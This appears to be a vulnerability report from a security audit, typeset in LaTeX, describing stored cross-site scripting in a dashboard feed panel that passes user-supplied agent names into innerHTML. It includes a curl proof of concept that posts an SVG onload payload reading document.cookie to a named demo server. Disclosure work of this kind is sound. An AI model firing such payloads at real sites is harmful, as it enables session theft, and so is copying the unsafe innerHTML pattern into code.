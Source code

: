 \documentclass[twocolumn,10pt,letterpaper]{article}
\begin{document}
\textbf{Severity:} HIGH  

\textbf{Category:} Cross-Site Scripting (Stored)  

\textbf{Confidence:} 0.9  

\textbf{Affected Files:}  


\begin{itemize}
\setlength{\itemsep}{0pt}
\setlength{\parskip}{0pt}
  \item \texttt{dashboard/\allowbreak src/\allowbreak panels/\allowbreak feed.ts} (lines 42, 46, 74, 78, 84, 90, 104)
  \item \texttt{server/\allowbreak server.py} (lines 903-924)
  \item \texttt{server/\allowbreak models.py} (MessageCreate)
\end{itemize}

\paragraph{Description}

The feed panel constructs HTML strings using \texttt{msg.agent\_name}, \texttt{msg.title}, and \texttt{msg.content} from WebSocket messages and renders them via \texttt{item.innerHTML} at line 104.


While agent names generated during registration (\texttt{POST /\allowbreak api/\allowbreak agents/\allowbreak register}) are server-generated from safe word lists in \texttt{names.py}, the \texttt{/\allowbreak api/\allowbreak messages} POST endpoint accepts a \textbf{separate, user-controlled} \texttt{agent\_name} field in the \texttt{MessageCreate} model. This user-supplied agent name bypasses the safe server-side generation and flows directly to innerHTML.


\begin{lstlisting}
// feed.ts line 46 — user-controlled agent_name interpolated into HTML
text = `<b>${msg.agent_name}</b> proposed: "${msg.title}"`;

// feed.ts line 104 — rendered via innerHTML
item.innerHTML = `<span class="feed-text">${text}</span>`;
\end{lstlisting}

\paragraph{Proof of Concept}

\begin{lstlisting}
curl -s -X POST https://demo.discoveryatscale.com/api/messages \
  -H "Content-Type: application/json" \
  -d '{
    "agent_name": "<svg onload=alert(document.cookie)>",
    "agent_id": "any-uuid",
    "content": "test message",
    "msg_type": "agent"
  }'
\end{lstlisting}
\end{document}
